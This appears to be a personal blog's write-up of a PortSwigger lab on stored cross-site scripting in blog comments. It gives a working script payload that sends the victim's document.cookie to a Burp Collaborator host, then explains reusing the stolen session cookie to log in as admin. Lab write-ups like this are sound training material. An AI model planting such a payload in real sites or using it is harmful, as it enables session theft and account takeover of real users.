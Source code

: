 ```yaml
---
layout: post
title:  "Exploiting cross-site scripting to steal cookies"
date:   2024-09-29 09:39:54 +0530
---
```


## Initial Information

This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

  

## Things to Remember 

<p>
    To prevent the Academy platform from being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use <mark>Burp Collaborator’s default public server</mark>.
</p>
<p>
    Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than <mark>exfiltrating the cookie</mark>.
</p>

  

## Solution

Kind of looks like a blog forum where we can comment on those blog posts by viewing the blog 

  

![]({{ site.baseurl }}/assets/images/image%2010.png)  

  

Sprayed the following payload `nithissh"><h2>XSS` on every field and to check whether any other fields are vulnerable other than, comment functionality it self.. But in our case, the blog comment field is vulnerable actually which we already know 

  

![]({{ site.baseurl }}/assets/images/image%2011.png)  

Now, we have confirmed that the vulnerability exists over there and in order to acheive our endgoal which is stealing the cookie value we need to curate a payload that it will steal the cookie and send it to our external server 

  

For that, we can use burp collaborator.. also there are other alternatives like interactsh or webhooks but portswigger enabled for all labs which needs OOB interaction we have to indefinitely use the burp collaborator

  

Coming to the payload part, Here is the sample payload where it utilizes the `<script>` tag 

  

```html
<script>
document.write('<img src="[URL]?c='+document.cookie+'" />');
</script>
```

  

Further moving ahead, replace the actual `[URL]`  with our burp collaborator ( `xyzy5c2elakzj8tsd599t5golfr6fw3l.oastify.com`  ) in an HTTP protocol and complete payload which we gonna utilize looks like as follows

  

```html
<script>
document.write('<img src="http://xyzy5c2elakzj8tsd599t5golfr6fw3l.oastify.com/?c='+document.cookie+'" />');
</script>
```

  

Now paste the payload into blog comment and look through the burp collab for any interaction related to cookie 

  

Looking and polling through, there is a interaction came in HTTP.. tied along with a cookie 

  

![]({{ site.baseurl }}/assets/images/image%2012.png)  

  

Now take the `session` value and replace with our session value eithier through burp repeater or through local storage we can do that and referesh the page, you will be logged in as a admin and the lab is solved 

  

![]({{ site.baseurl }}/assets/images/image%2013.png)  

  

## Do u Know why u got the admin token over there ?

Because every now and then, administrator over looks through the blog comments eithier some kind of bot is automating it or any other manual interaction which happened accidentally